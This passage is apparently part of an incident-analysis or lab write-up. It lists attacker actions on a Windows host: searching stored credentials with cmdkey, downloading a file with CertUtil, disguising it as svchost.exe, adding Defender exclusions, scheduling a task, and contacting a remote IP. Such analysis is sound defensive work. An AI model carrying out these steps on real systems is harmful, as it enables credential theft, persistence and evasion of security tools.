5. `cmdkey.exe /list` was used to search for stored credentials.
6. CertUtil downloaded a suspicious executable from an external server.
7. The file was saved as `C:\ProgramData\WindowsCache\svchost.exe`.
8. Multiple file extensions were excluded from Windows Defender.
9. The user's temporary folder was excluded from Defender scanning.
10. A scheduled task was created to execute the malware.
11. The malicious executable communicated with `78.141.196.6`.
